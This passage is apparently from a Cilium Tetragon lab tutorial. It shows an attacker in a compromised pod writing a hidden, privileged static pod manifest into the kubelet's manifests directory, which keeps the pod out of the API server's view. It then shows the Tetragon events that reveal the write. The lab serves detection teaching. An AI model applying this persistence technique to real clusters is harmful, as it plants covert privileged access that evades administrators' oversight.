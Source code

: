 ```bash
cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
```

As a validation, let's run crictl ps and see that a new container hack-latest is running on the node. Note that it might take a few seconds for the hack-latest container to show up:

crictl ps
Once it starts, the output should look like the following listing, among other lines:
```
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
e843b9e9c1648       e7ba4f2341d9d       5 seconds ago       Running             hack-latest                 0                   89678fea81b04
203c157d2389e       448a08f1d2f94       5 minutes ago       Running             sith-infiltrator            0                   7d376f6cc8989
4c119df97d3c4       0f6f3ec583bf6       10 minutes ago      Running    
```

### Security Observability events

Now, that you have written your hidden PodSpec to kubelet’s directory, you can verify that the pod is invisible to the Kubernetes API server in >_ Terminal 3 by running:
```
kubectl get pods --all-namespaces
```
Note that the container hack-latest is not visible in the output!

However, it can be identified by Cilium Tetragon. By monitoring Security Observability events from Cilium Tetragon in >_ Terminal 1, you can identify persistence early by detecting the hack-latest.yaml file write with /usr/bin/cat in the following process_exec and process_kprobe events:

```bash
📬 open    default/sith-infiltrator /usr/bin/bash /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/cat         🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/cat /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/cat /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/cat /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/cat /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/cat  0 🛑 CAP_SYS_ADMIN
```
